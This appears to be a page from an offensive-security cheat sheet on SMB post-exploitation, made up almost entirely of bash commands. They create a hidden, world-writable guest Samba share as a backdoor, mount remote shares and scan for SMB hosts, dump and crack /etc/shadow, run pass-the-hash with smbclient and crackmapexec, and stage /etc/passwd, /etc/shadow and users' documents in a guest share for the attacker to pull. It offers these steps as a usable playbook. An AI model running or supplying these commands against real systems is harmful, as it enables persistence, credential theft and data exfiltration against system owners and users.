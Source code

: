 #### Backdoor Share Creation
```bash
# Create hidden share
mkdir -p /tmp/.hidden
chmod 777 /tmp/.hidden

# Add to smb.conf
cat >> /etc/samba/smb.conf << EOF
[hidden$]
path = /tmp/.hidden
browseable = no
writable = yes
guest ok = yes
public = yes
EOF

# Restart services
systemctl reload smbd
```

### Lateral Movement

#### SMB Share Mounting
```bash
# Mount remote SMB shares
mkdir -p /mnt/remote_share
mount -t cifs //<remote-ip>/share /mnt/remote_share -o username=user,password=pass

# Discover other SMB servers
nmap -p 445 --script smb-os-discovery <network-range>
```

#### Pass-the-Hash Attacks
```bash
# Extract password hashes
cat /etc/shadow
john --wordlist=/usr/share/wordlists/rockyou.txt shadow.txt

# Use extracted hashes
smbclient -L //<target-ip> -U administrator%<lm:ntlm-hash>
crackmapexec smb <target-ip> -u administrator -H <ntlm-hash>
```

### Data Exfiltration

#### SMB-based Exfiltration
```bash
# Compress sensitive data
tar -czf /tmp/exfil.tar.gz /etc/passwd /etc/shadow /home/*/Documents/

# Create temporary SMB share for exfiltration
mkdir -p /tmp/exfil_share
echo "[exfil]" >> /etc/samba/smb.conf
echo "path = /tmp/exfil_share" >> /etc/samba/smb.conf
echo "writable = yes" >> /etc/samba/smb.conf
echo "guest ok = yes" >> /etc/samba/smb.conf

# Move data to share
mv /tmp/exfil.tar.gz /tmp/exfil_share/

# Access from attacker machine
smbclient //<target-ip>/exfil -N
get exfil.tar.gz
```
